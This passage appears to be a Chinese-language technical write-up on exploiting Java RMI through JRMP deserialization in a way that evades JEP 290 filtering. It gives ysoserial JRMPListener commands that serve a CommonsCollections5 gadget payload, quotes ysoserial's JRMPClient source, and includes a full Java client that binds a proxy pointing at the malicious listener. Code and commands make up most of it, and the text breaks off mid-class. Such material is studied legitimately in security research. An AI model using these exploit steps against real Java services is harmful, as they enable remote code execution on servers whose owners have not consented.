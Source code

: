 ```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections5 "calc"
```

然后通过payload/JRMPClient来生成payload，然后反序列化这个payload对服务端发起一个call连接，JRMP服务端返回恶意远程对象，DGC发起dirtyCall，直接反序列化恶意对象

![image-20220417120050192](images/10.png)

这里是不受JEP290的限制的，JEP290默认没有对JRMP客户端的反序列化做限制，所以能够打通

现在仍然起一个恶意的服务端

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections5 "calc"
```

yso中的JRMPClient相应代码：

```
ObjID id = new ObjID(new Random().nextInt()); // RMI registry
TCPEndpoint te = new TCPEndpoint(host, port);
UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
Registry proxy = (Registry) Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] {
Registry.class
}, obj);
return proxy;
```

这里直接开一个客户端去连接

```
package ysoserial.JRMP;

import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;


public class Client {
    public static void main(String[] args) throws RemoteException, IllegalAccessException, InvocationTargetException, InstantiationException, ClassNotFoundException, NoSuchMethodException, AlreadyBoundException {

        Registry reg = LocateRegistry.getRegistry("127.0.0.1",1099);
        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint("127.0.0.1", 1099);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
        Registry proxy = (Registry) Proxy.newProxyInstance(Client.class.getClassLoader(), new Class[] {
            Registry.class
        }, obj);
        reg.bind("hello",proxy);

    }

```